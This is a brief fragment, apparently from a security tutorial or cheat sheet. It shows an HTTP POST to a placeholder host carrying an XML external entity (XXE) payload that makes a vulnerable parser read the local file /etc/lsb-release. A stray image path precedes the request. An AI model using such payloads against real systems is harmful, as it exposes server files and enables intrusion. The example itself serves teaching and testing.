 POST http://example.com/xml HTTP/1.1
``````
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````
